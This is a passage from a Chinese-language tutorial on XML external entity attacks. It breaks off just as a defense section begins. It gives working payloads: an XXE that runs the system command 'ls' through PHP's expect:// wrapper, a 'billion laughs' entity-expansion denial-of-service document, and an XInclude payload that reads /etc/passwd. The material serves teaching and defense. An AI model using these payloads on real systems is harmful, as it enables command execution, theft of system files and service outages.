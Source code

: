 用的比较少,要**在安装`expect`扩展的`PHP环境`里执行系统命令**

```xml-dtd
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "expect://ls" >
]>

<root>
<name>&xxe;</name>
</root>
```



## DOS攻击

```xml-dtd
<?xml version="1.0"?>
   <!DOCTYPE lolz [
<!ENTITY lol "lol">
<!ENTITY lol2 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
<!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
<!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
<!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
<!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
<!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
<!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
<!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>
```



## XInclude攻击

一些情况下，我们可能无法控制整个XML文档，也就无法完全`XXE`，但是我们可以控制其中一部分，这个时候就可以使用`XInclude`

`XInclude`是XML规范的一部分，它允许**从子文档构建XML文档**。可以在XML文档中的任何数据值中放置`XInclude Payload`

要执行`XInclude`攻击，需要引用`XInclude`命名空间并提供要包含的文件的路径。例如：

```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```



# 防御

- 使用开发语言提供的禁用外部实体的方法,不同的类可能设置方法也不一样，具体情况具体分析。

php:
